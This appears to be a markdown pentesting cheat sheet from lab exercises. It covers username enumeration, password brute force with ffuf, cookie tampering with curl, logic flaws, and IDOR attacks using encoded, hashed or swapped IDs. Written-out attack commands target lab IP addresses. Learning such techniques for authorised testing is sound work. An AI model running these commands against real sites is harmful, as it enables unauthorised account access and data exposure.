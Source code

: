 # Enumeration
## Authentication Bypass
| Type | Description | Example |
|-|-|-|
| Username Enumeration | Abuse user authentication by looking at server responses like "An account with this username already exists." | `ffuf -w wordlist.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.220/customers/signup -mr "username already exists"` |
| Brute force | Brute force search for the password from the enumerated user | `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.175/customers/login -fc 200` |
| Logic flaws | Abuse faulty code | Exact string matches for `admin` could be `adMIN`. `Password reset forms`, Abuse `Header files` & `requests`, `Off by one errors`, etc.
| Cookie Tampering | Examining and editing the cookies set by the web server during your online session | `curl -H "Cookie: logged_in=true; admin=true" http://10.10.232.83/cookie-test` |

## Exploit IDOR vulns
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

***Where are they located?***
The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file.

Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to /user/details displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called user_id that you can use to display other users' information, for example, /user/details?user_id=123.

| Type | Description | Example |
|-|-|-|
| Basic | Basic example | Change values in links like: `http://online-service.thm/profile?user_id=1305` |
| Encoded IDOR IDs | Web developers will often encode data into some type of ASCII string commonly using a-z, A-Z, 0-9 and = characters for padding | Base64: `{"id":30}` becomes `eyJpZCI6MzB9` |
| Hashed IDs | A bit more complicated to deal with than encoded ones, but they may follow a predictable pattern | md5: `123` becomes `202cb962ac59075b964b07152d234b70` |
| Unpredictable IDs | If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them. | Swap `two` account IDs |
|
